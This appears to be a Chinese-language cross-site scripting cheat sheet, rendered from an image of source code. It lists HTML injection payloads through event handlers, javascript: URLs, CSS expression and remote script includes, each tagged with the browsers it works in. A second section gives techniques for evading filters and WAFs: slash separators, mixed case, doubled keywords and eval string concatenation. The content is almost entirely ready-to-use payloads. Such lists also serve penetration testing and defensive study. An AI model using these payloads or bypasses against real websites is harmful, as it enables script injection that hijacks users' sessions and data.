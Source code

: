 **`<keygen>`**

> 
`<keygen autofocus onfocus=alert(1)> //仅限火狐`



**`<marquee>`**

> 
`<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以`



**`<isindex>`**

> 
`<isindex type=image src=1 onerror=alert("xss")>//仅限于IE`


**`利用link远程包含js文件`**

> 
在无CSP的情况下才可以<br/> `<link rel=import href="http://127.0.0.1/1.js">`



**`javascript伪协议`**

> 
`<a>`标签<br/> `<a href="javascript:alert('xss');">xss</a>`<br/> `<iframe>`标签<br/> `<iframe src=javascript:alert('xss');></iframe>`<br/> `<img>`标签<br/> `<img src=javascript:alert('xss')>//IE7以下`<br/> `<form>`标签<br/> `<form action="Javascript:alert(1)"><input type=submit>`



**`expression属性`**

> 
`<img style="xss:expression(alert('xss''))"> // IE7以下`<br/> `<div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下`<br/> `<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下`



**`background属性`**

> 
`<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效`


## 存在过滤情况

**`过滤空格`**

> 
用 / 代替空格<br/> `<img/src="x"/onerror=alert("xss");>`



**`过滤关键字`**

> 
大小写绕过<br/> `<ImG sRc=x onerRor=alert("xss");>`<br/> 双写关键字(有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过)<br/> `<imimgg srsrcc=x onerror=alert("xss");>`<br/> 字符拼接(利用eval)<br/> `<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">`<br/> 字符拼接(利用top)<br/> `<script<top["al"+"ert"](``xss``);</script>`(只有两个``这里是为了凸显出有`符号)


